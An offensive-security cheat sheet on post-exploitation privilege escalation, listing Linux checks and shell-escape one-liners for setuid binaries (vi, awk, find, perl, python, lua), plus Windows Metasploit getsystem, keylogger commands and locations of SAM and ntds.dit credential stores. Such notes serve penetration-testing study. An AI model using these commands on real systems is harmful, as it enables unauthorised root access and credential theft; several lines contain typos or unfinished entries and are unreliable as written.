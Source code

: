 ```yaml
---
title: Priv Esc
category: Post-Exploitation
order: 96
---
```


>**Linux**

check sudo permissions | sudo -l
Cron.d | Write a file to cron.d and wait for restart
Cron files | Can any of the cron files be tampered with
Kernal Exploit | <code>Run uname -a, /etc/release, /etc/issue and find an exploit </code>
Application Exploit | Look for web servers, mail servers for command injection <br> Look for exploits in root owned programs
PATH | Look for '.' in the path for system users
SETUID/SETGUID | <code> find directory -user root -perm -4000 -exec ls -ld {} \; > /tmp/security-hole </code> <br> They may use the system syscall without specifying the path name 
User writable scripts | Look for scripts that have user writable permissions and are invoked by root (or call scripts that are invoked by root)
Enlightenment Exploit Pack | tbd
LD_PRELOAD | tbd

Resources:
* [g0tmilk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [LinEnum](http://www.rebootuser.com/?p=1758)
* [LinuxPrivChecker](http://www.securitysift.com/download/linuxprivchecker.py)


**setuid permissions**
 
{% highlight bash %}

vi:
:shell
:set shell=/bin/bash
:! /bin/bash

less:
(press v - launching vi) :shell

more:
?,  !bash

more,less, man:
'! /bin/sh'
'!/bin/sh'
'!bash'

tee:
echo "evil script code" | tee script.sh

awk:
awk 'BEGIN {system("/bin/sh")}'

find . -exec bash -i \;
find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

perl exec ""/bin/bash"";[ctrl-d]
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";

ruby exec ""bin/bash""
ruby: exec "/bin/sh"

python import os os.system('/in/bash')
python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()

lua: os.execute('/bin/sh')

irb(main:001:0> exec "/bin/sh"

nano 
{% endhighlight %}

>**Windows**

Metasploit | use priv, getsystem -n [number]
Metasploit keylogger | keyscan_start, keyscan_stop, keyscan_dump
SAM Locations | c:\windows\repair, c:\winnt\repair
Active Directory Representations | ntd.dit

http://pentestmonkey.net/uncategorized/from-local-admin-to-domain-admin

>**Mind Map**

[Priv Esc Mind Map](https://binaryexile.github.io/images/privesc.jpg)


